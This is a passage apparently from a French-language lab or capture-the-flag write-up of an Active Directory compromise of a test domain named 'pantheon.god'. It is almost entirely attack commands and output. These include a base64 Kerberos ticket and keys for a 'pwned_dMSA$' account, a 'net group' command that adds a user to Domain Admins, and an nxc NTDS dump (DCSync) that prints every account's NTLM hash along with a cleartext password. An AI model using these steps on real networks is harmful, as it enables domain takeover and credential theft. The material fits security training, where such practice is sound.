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
ServiceName : krbtgt/PANTHEON.GOD
ServiceRealm : PANTHEON.GOD
UserName : pwned_dMSA$ (NT_PRINCIPAL)
UserRealm : pantheon.god
StartTime : 6/21/2025 7:57:18 PM
EndTime : 6/21/2025 8:12:18 PM
RenewTill : 6/28/2025 7:39:01 PM
Flags : name_canonicalize, pre_authent, renewable, forwarded, forwardable
KeyType : aes256_cts_hmac_sha1
Base64(key) : lz6aJiIROu869mpfk75WMyXuA/9jyzJBbk7M9V/P/0M=
Current Keys for pwned_dMSA$: (aes256_cts_hmac_sha1) 96382D52C19DC606FF501EAD0FDB514EA2AD7C3AAF82FBC9EB584FE244A34753
PS C:\Users\hades\Desktop>
PS C:\Users\hades\Desktop> net group "domain admins" /add orphee /domain
The request will be processed at a domain controller for domain pantheon.god.
The command completed successfully.
PS C:\Users\hades\Desktop>
On as pus ce rajouter en tant d’aministrateur du domain.
Cela nous permet de faire un DCsync pour récupérer tout les hash du domain
nxc smb "192.168.56.11" -u "$USER" -p "$PASSWORD" --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n]
SMB 192.168.56.11 445 PANTHEON-DC01 [*] Windows 11 / Server 2025 Build 26100 x64 (name:PANTHEON-DC01) (domain:pantheon.god) (signing:True) (SMBv1:False)
SMB 192.168.56.11 445 PANTHEON-DC01 [+] pantheon.god\orphee:Mus1cM@st3r!2024 (admin)
SMB 192.168.56.11 445 PANTHEON-DC01 [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB 192.168.56.11 445 PANTHEON-DC01 Administrator:500:aad3b435b51404eeaad3b435b51404ee:aff6a388446bba49babad7aaf35aae83:::
SMB 192.168.56.11 445 PANTHEON-DC01 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB 192.168.56.11 445 PANTHEON-DC01 krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d6f782d1249a05a188a3fd2336004c1c:::
SMB 192.168.56.11 445 PANTHEON-DC01 vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
SMB 192.168.56.11 445 PANTHEON-DC01 zeus:1112:aad3b435b51404eeaad3b435b51404ee:5b68357e3a16721b6523dff3234652ae:::
SMB 192.168.56.11 445 PANTHEON-DC01 hera:1113:aad3b435b51404eeaad3b435b51404ee:d1eb28b8b4081c051bcf65050fe65ca0:::
SMB 192.168.56.11 445 PANTHEON-DC01 poseidon:1114:aad3b435b51404eeaad3b435b51404ee:d1c741139ff861b32a322a0352ae265d:::
SMB 192.168.56.11 445 PANTHEON-DC01 demeter:1115:aad3b435b51404eeaad3b435b51404ee:a8300dbc2a0f174b64951c9da08e4d0b:::
SMB 192.168.56.11 445 PANTHEON-DC01 athena:1116:aad3b435b51404eeaad3b435b51404ee:416d0ff6775086300c6221ae7efbc402:::
SMB 192.168.56.11 445 PANTHEON-DC01 apollo:1117:aad3b435b51404eeaad3b435b51404ee:5746e19586565c6742ed10f8d469b639:::
SMB 192.168.56.11 445 PANTHEON-DC01 artemis:1118:aad3b435b51404eeaad3b435b51404ee:c7b57775c739c2fa8d5e24032a2f0fbe:::
SMB 192.168.56.11 445 PANTHEON-DC01 ares:1119:aad3b435b51404eeaad3b435b51404ee:551fc4fb35460741f949253495ac1698:::
SMB 192.168.56.11 445 PANTHEON-DC01 aphrodite:1120:aad3b435b51404eeaad3b435b51404ee:17f0fd7ea28eb4be24153ff2ec3e6119:::
SMB 192.168.56.11 445 PANTHEON-DC01 hephaistos:1121:aad3b435b51404eeaad3b435b51404ee:bc93607a09d45adb70ce0f02869021d6:::
SMB 192.168.56.11 445 PANTHEON-DC01 hermes:1122:aad3b435b51404eeaad3b435b51404ee:1a7639670465f9deaa2b4534f1867a32:::
SMB 192.168.56.11 445 PANTHEON-DC01 dionysos:1123:aad3b435b51404eeaad3b435b51404ee:bb11bc506d66de79df5fbcbd7ede151c:::
SMB 192.168.56.11 445 PANTHEON-DC01 achille:1124:aad3b435b51404eeaad3b435b51404ee:95718c56984fbe7f6ae1958433b16880:::
SMB 192.168.56.11 445 PANTHEON-DC01 theseus:1125:aad3b435b51404eeaad3b435b51404ee:06cf37a4cd7e41d838b37092cf0d9cf9:::
SMB 192.168.56.11 445 PANTHEON-DC01 perseus:1126:aad3b435b51404eeaad3b435b51404ee:48505186cb6ffaad4f14c52509b8438e:::
SMB 192.168.56.11 445 PANTHEON-DC01 ulysse:1127:aad3b435b51404eeaad3b435b51404ee:36a6da7303d1a46aab641d44ba6990af:::
SMB 192.168.56.11 445 PANTHEON-DC01 jason:1128:aad3b435b51404eeaad3b435b51404ee:b40f85d1bd20d52e721d9731753e5892:::
SMB 192.168.56.11 445 PANTHEON-DC01 orphee:1129:aad3b435b51404eeaad3b435b51404ee:e5434e98bb7d29c8b4392bcca15d860a:::
SMB 192.168.56.11 445 PANTHEON-DC01 asclepios:1130:aad3b435b51404eeaad3b435b51404ee:e1ef927a14e399b67f532b5f492570a4:::
SMB 192.168.56.11 445 PANTHEON-DC01 psyche:1131:aad3b435b51404eeaad3b435b51404ee:499dcff82f6d25be7b267a94c2cdb62e:::
SMB 192.168.56.11 445 PANTHEON-DC01 ganymede:1132:aad3b435b51404eeaad3b435b51404ee:32e822f8b80fca89e0f70dfb9a6ffb47:::
SMB 192.168.56.11 445 PANTHEON-DC01 hades:1133:aad3b435b51404eeaad3b435b51404ee:ead49bdbe3311143eeafbcb14d8ae126:::
SMB 192.168.56.11 445 PANTHEON-DC01 cronos:1134:aad3b435b51404eeaad3b435b51404ee:9c0a518fd5a9ae01c9282203980ad85b:::
SMB 192.168.56.11 445 PANTHEON-DC01 iapetos:1135:aad3b435b51404eeaad3b435b51404ee:7b247761b5db99db000a9e077e0155f2:::
SMB 192.168.56.11 445 PANTHEON-DC01 coeus:1136:aad3b435b51404eeaad3b435b51404ee:ee853d94f3c5ddfc40f764426b758284:::
SMB 192.168.56.11 445 PANTHEON-DC01 hyperion:1137:aad3b435b51404eeaad3b435b51404ee:5c41d7ea5b8215a005052c21b233edf0:::
SMB 192.168.56.11 445 PANTHEON-DC01 krios:1138:aad3b435b51404eeaad3b435b51404ee:f1de6b7dcf24a30198b8aa823ab7e2b0:::
SMB 192.168.56.11 445 PANTHEON-DC01 smbscores:1139:aad3b435b51404eeaad3b435b51404ee:54e48c5f048847ce13fa805e1459b63e:::
SMB 192.168.56.11 445 PANTHEON-DC01 hercule:1140:aad3b435b51404eeaad3b435b51404ee:0906d53ebe3acdd2a545355ced7053f8:::
SMB 192.168.56.11 445 PANTHEON-DC01 PANTHEON-DC01$:1001:aad3b435b51404eeaad3b435b51404ee:044d32223bdc78362acd13fc27ea5dad:::
SMB 192.168.56.11 445 PANTHEON-DC01 PANTHEON-ENFERS$:1104:aad3b435b51404eeaad3b435b51404ee:c26c2e72ed7035dcde9b910b4e0cf411:::
SMB 192.168.56.11 445 PANTHEON-DC01 svc_thunderB$:1111:aad3b435b51404eeaad3b435b51404ee:dd0f819d9e5971f7b0927b33a6c7dfd7:::
SMB 192.168.56.11 445 PANTHEON-DC01 pwned_dMSA$:1141:aad3b435b51404eeaad3b435b51404ee:bda205d296baf2743022fd78bb41b82a:::
SMB 192.168.56.11 445 PANTHEON-DC01 [+] Dumped 37 NTDS hashes to /root/.nxc/logs/ntds/PANTHEON-DC01_192.168.56.11_2025-06-26_071036.ntds of which 33 were added to the database
SMB 192.168.56.11 445 PANTHEON-DC01 [*] To extract only enabled accounts from the output file, run the following command:
SMB 192.168.56.11 445 PANTHEON-DC01 [*] cat /root/.nxc/logs/ntds/PANTHEON-DC01_192.168.56.11_2025-06-26_071036.ntds | grep -iv disabled | cut -d ':' -f1
SMB 192.168.56.11 445 PANTHEON-DC01 [*] grep -iv disabled /root/.nxc/logs/ntds/PANTHEON-DC01_192.168.56.11_2025-06-26_071036.ntds | cut -d ':' -f1
[orphee@pantheon.god][Jun 26, 2025 - 07:10:37 (CEST)] exegol-pantheon_wu exploit #